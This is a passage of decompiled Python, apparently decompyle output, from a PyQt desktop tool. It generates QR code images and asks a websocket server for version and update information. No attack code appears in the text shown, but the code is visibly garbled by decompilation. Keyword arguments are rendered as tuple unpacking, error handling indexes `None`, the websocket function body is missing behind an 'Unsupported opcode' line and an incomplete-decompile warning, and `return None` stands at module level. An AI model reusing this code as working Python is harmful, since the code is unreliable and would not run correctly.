        def generate_code(self):
            qr = qrcode.QRCode(1, qrcode.constants.ERROR_CORRECT_L, 20, 2, **('version', 'error_correction', 'box_size', 'border'))
            qr.add_data(self.textEdit.toPlainText())
            qr.make(True, **('fit',))
            img = qr.make_image('black', 'white', **('fill_color', 'back_color'))
            img.save('current.png')
            pixmap = QtGui.QPixmap('current.png')
            pixmap = pixmap.scaled(300, 300)
            self.label.setScaledContents(True)
            self.label.setPixmap(pixmap)
    
        def quit_reader(self):
            if os.path.exists(tmp_file_name):
                os.remove(tmp_file_name)
            sys.exit()
    
        def version(self):
            response = asyncio.run(ws_connect(ws_host + '/version', json.dumps({
                'version': VERSION })))
            data = json.loads(response)
            if 'error' not in data.keys():
                version_info = data['message']
                msg = f'''[INFO] You have version {version_info['version']} which was released on {version_info['released_date']}'''
                self.statusBar().showMessage(msg)
                return None
            error = None['error']
            self.statusBar().showMessage(error)
    
        def update(self):
            response = asyncio.run(ws_connect(ws_host + '/update', json.dumps({
                'version': VERSION })))
            data = json.loads(response)
            if 'error' not in data.keys():
                msg = '[INFO] ' + data['message']
                self.statusBar().showMessage(msg)
                return None
            error = None['error']
            self.statusBar().showMessage(error)
    
        __classcell__ = None
    
    async def ws_connect(url, msg):
    Unsupported opcode: GEN_START
        pass
    # WARNING: Decompyle incomplete
    
    def main():
        (status, e) = setup_env()
        if not status:
            print('[-] Problem occurred while setting up the env!')
        app = QApplication([])
        window = MyGUI()
        app.exec_()
    
    if __name__ == '__main__':
        main()
        return None
    

